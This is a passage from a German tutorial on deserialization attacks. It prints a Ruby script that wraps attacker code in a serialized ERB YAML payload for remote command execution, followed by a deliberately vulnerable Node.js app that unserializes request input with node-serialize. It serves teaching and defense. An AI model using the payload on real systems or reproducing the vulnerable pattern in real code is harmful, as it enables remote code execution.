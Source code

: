 \begin{verbatim}
code  = File.read(ARGV[1])

# Construct a YAML payload wrapped in XML
payload = <<-PAYLOAD.strip.gsub("\n", "&#10;")
<fail type="yaml">
--- !ruby/object:ERB
 template:
    src: !binary |-
        #{Base64.encode64(code)}
</fail>
PAYLOAD
\end{verbatim}

Der Code liest zuerst eine Payload aus einem File aus (der Pfad wird durch die Variable ARGV bereitgestellt) und erstellt dann ein Dokument welches ein serialisiertes ERB-Objekt beschreibt. Hier wurde nun src mit dem Schadcode befüllt und falls die Webapplikation, welche dieses serialisierte Objekt entgegen nimmt, nun das Objekt deserialisert und auf die \textit{result} Methode zugreift wird der bösartige Code des Angreifers ausgeführt. Dies entspricht einer Remote Command Injection, basierend auf einem Serialisierungsfehler.

\subsection{Serialisierungsangriffe in Javascript / Node.js}

Ein schönes Beispiel für Serialisierungsangriffe ist folgende \textit{node.js} Applikation welche die Serialisierungsbibliothek \textit{node-serialize} verwendet:

\begin{verbatim}
const express = require('express');
const bodyParser = require('body-parser');
const serialize = require('node-serialize');

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));

app.post("/api/deserialize", function(req, res) {
	var str = ""+req.body.fubar;
	  const todo = serialize.unserialize(str);
	  console.log(todo);
	  res.send("wohoo!");
});

const server = app.listen(3000, function() {
	  console.log("Server started! (Express.js)");

		// Beispiel eines "normalen" serialisierten Objekts
		const normal = {
			todo: "some string"
		};
	  console.log("serialized normal object" + serialize.serialize(normal));
});
\end{verbatim}

Bei diesem Beispiel wird vom Server als Parameter ,,fubar'' ein serialisiertes Objekt als Text entgegen genommen, deserialisiert und ausgegeben. Das erwartete serialisierte Object wird nun über das Kommandozeilentool \textit{curl} an den Server übertragen:

